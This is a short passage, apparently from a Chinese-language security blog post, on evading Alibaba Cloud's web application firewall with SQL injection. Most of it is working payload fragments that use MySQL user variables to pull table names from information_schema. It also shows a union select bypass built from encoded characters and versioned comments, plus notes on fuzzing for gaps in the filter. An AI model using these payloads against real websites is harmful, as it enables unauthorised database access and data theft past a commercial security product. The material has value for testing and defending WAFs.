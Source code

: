 ![image](/images/posts/sql-injection-fuck-waf/chunked.png)
- 阿里云   
尝试使用自定义变量方式来绕过 @a:=(select @b:=`table_name`from{a information_schema.`TABLES` }limit 0,1)union select '1',@a  
@p:=(select)被过滤 fuzz下p参数使用@$:=(select)可以绕过  
union select 1被过滤   使用union%23aa%0a/*!select--%01%0a*/1,@$,3 可以绕过   
发现重点就是绕过表名 select 1 from dual 一些常规的方法测试无果 随便fuzz下注释/*!数字*/却偶然发现有俩个数据包遗漏  
想起了以前乌云上一哥的的一个漏洞https://wooyun.shuimugan.com/bug/view?bug_no=94367
![image](/images/posts/sql-injection-fuck-waf/alifuzz1.png)